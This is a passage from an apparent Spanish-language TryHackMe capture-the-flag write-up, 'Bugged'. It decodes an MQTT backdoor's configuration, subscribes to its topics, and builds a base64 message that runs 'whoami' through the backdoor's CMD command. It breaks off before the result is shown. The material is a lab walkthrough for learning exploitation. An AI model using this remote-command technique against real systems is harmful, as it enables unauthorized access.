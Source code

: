 ```bash
echo eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ== | base64 -d; echo

{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
```

Antes de intentar enviar cualquier cosa a estos topics, tenemos que suscribirnos a estos por si nos llega algún mensaje.<br>
```
> subscribe U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub
> subscribe XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub
```
Ahora sí, al intentar hacer un `publish` al topic `XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub` con el contenido `hola` vemos el siguiente error.

![](/assets/images/TryHackMe/Bugged/publish_hola.png)

```bash
echo SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk= | base64 -d; echo
Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
```

Viendo el output llegamos a la conclusión que ya tenemos una via potencial de ejecutar comandos en la máquina, solo hay que enviar lo que queremos ejecutar con el formato correcto.

> id: cdd1b1c0-1c40-4b0f-8e22-61b357548b7d <br>
> cmd: CMD <br>
> arg: whoami <br>

```bash
echo '{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd":"CMD", "arg":"whoami"}' | base64 -w 0; echo
eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsICJjbWQiOiJDTUQiLCAiYXJnIjoid2hvYW1pIn0K
```

![](/assets/images/TryHackMe/Bugged/publish_whoami.png)

Cuando le hacemos un base64 decode al payload que hemos recibido vemos lo siguiente:
